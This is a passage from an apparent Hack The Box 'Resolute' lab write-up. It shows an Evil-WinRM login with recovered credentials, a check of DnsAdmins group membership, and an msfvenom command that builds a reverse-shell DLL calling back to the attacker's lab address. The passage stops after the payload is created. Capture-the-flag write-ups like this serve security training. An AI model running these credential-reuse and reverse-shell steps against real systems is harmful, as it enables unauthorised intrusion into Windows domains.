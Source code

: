 Nice, we've disovered more credentials!

Lets use these with Evil-WinRM to logon as user ryan:

```text
┌──(ryan㉿kali)-[~/HTB/Resolute]
└─$ evil-winrm -i megabank.local -u ryan -p 'Serv3r4Admin4cc123!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents> hostname
Resolute
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
```

Running `whoami /groups` we see that user ryan is in the DnsAdmins group:

![groups.png](../assets/resolute_assets/groups.png)

Nice, this should be easily exploitable.

First we'll need to create a reverse shell dll file using msfvenom:

```text
┌──(ryan㉿kali)-[~/HTB/Resolute]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.72 LPORT=443 -f dll > shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
```
